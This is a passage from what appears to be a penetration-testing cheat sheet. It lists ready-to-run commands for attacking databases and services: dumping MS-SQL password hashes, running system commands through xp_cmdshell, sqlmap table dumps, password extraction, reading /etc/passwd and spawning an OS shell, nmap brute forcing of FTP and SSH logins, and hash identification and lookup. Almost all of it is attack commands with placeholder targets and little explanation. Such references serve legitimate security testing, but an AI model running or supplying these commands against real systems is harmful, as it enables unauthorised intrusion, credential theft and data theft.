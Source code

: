 * Connect to an MS-SQL instance
``` sh
sqsh -S <ip>:<port> -U <user>
```

* Dump MS-SQL hashes via `nmap`
``` sh
nmap -Pn -p <port> --script=ms-sql-dump-hashes --script-args='mssql.username=<user>,mssql.password=<pass>,mssql.instance-port=<port>' <ip>
```

* Execute shell commands via MS-SQL and `nmap`
``` sh
nmap -p <port> --script ms-sql-xp-cmdshell --script-args='mssql.username=sa,mssql.password=password,mssql.instance-port=<port>,ms-sql-xp-cmdshell.cmd="<cmd>"' <ip>
```

* Enumerate Oracle database via Metasploit's `auxiliary/admin/oracle/oraenum`

* `sqlmap` dump table from a vulnerable form
``` sh
sqlmap -o -u "http://website.com/vuln-form" --forms -D <dbname> -T <tablename> --dump
```

* `sqlmap` exploit a vulnerable POST endpoint
``` sh
sqlmap -u <target> -p <param> --data=<postdata> --cookie=<cookie> --level=3 --current-user --current-db --passwords --file-read="/etc/passwd"
```

* `sqlmap` get an OS shell
``` sh
sqlmap --dbms=mysql -u "http://website.com/login.php" --os-shell
```


## SQL Information Gathering

* (MySQL) Show all non-empty tables
``` sql
SELECT table_type, table_name FROM information_schema.tables WHERE table_rows >= 1;
```


## Password / Key / Username Brute Force

* `nmap` brute forces with custom user/pass lists
``` sh
# ftp
nmap --script ftp-brute --script-args userdb=/usr/share/wordlists/nmap.lst,passdb=/usr/share/wordlists/fasttrack.txt -pT:21 <ip>

# ssh
nmap --script ssh-brute --script-args userdb=/usr/share/wordlists/nmap.lst,passdb=/usr/share/wordlists/fasttrack.txt -pT:22 <ip>
```

* Hash identification ([example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes))
``` sh
# identify hash type locally
hashid <hash>
hash-identifier

# remote search for previously-cracked hash
findmyhash <algorithm> -h <hash>
```
